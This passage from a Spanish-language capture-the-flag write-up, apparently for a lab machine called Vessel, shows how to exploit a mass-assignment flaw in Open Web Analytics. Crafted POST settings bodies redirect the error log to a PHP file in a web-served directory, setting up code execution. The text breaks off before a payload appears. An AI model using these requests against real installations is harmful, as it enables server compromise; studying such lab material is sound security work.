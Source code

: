 ![OWA logs](/assets/writeups/vessel/7.png)

En el servidor web sería reflejado como `http://openwebanalytics.vessel.htb/owa-data/logs/`, vale... ahora vamos a alterar el formato de generación de logs aprovechandonos de una falla de asignación en masa, para esto necesitaremos interceptar las peticiones que se hacen cuando cambiamos ajustes. Esto se envia por POST cuando hacemos dicha acción:

{% highlight bash %}
owa_config%5Bbase.resolve_hosts%5D=0&owa_config%5Bbase.log_feedreaders%5D=1&owa_config%5Bbase.log_robots%5D=0&owa_config%5Bbase.log_named_users%5D=1&owa_config%5Bbase.excluded_ips%5D=%2C&owa_config%5Bbase.anonymize_ips%5D=0&owa_config%5Bbase.fetch_refering_page_info%5D=1&owa_config%5Bbase.p3p_policy%5D=NOI+ADM+DEV+PSAi+COM+NAV+OUR+OTRo+STP+IND+DEM&owa_config%5Bbase.query_string_filters%5D=%2C&owa_config%5Bbase.announce_visitors%5D=0&owa_config%5Bbase.notice_email%5D=admin%40vessel.htb&owa_config%5Bbase.geolocation_lookup%5D=1&owa_config%5Bbase.track_feed_links%5D=1&owa_config%5Bbase.async_log_dir%5D=%2Fvar%2Fwww%2Fhtml%2Fowa%2Fowa-data%2Flogs%2F&owa_config%5Bbase.timezone%5D=America%2FLos_Angeles&owa_nonce=5a038d6bf2&owa_action=base.optionsUpdate&owa_module=base
{% endhighlight %}

Si agregamos `base.error_log_file` y `base.error_log_level` aunque no estén en el formulario original de configuración, los va a actualizar.

{% highlight bash %}
owa_config%5Bbase.resolve_hosts%5D=0&owa_config%5Bbase.log_feedreaders%5D=1&owa_config%5Bbase.log_robots%5D=0&owa_config%5Bbase.log_named_users%5D=1&owa_config%5Bbase.excluded_ips%5D=%2C&owa_config%5Bbase.anonymize_ips%5D=0"&owa_config%5Bbase.error_log_level%5D=2&owa_config%5Bbase.error_log_file%5D=/var/www/html/owa/owa-data/logs/myfile.php"&owa_config%5Bbase.fetch_refering_page_info%5D=1&owa_config%5Bbase.p3p_policy%5D=NOI+ADM+DEV+PSAi+COM+NAV+OUR+OTRo+STP+IND+DEM&owa_config%5Bbase.query_string_filters%5D=%2C&owa_config%5Bbase.announce_visitors%5D=0&owa_config%5Bbase.notice_email%5D=admin%40vessel.htb&owa_config%5Bbase.geolocation_lookup%5D=1&owa_config%5Bbase.track_feed_links%5D=1&owa_config%5Bbase.async_log_dir%5D=%2Fvar%2Fwww%2Fhtml%2Fowa%2Fowa-data%2Flogs%2F&owa_config%5Bbase.timezone%5D=America%2FLos_Angeles&owa_nonce=5a038d6bf2&owa_action=base.optionsUpdate&owa_module=base
{% endhighlight %}

El sitio guardará los ajustes sin problemas y si intentamos ver si el archivo nuevo de logs existe pues
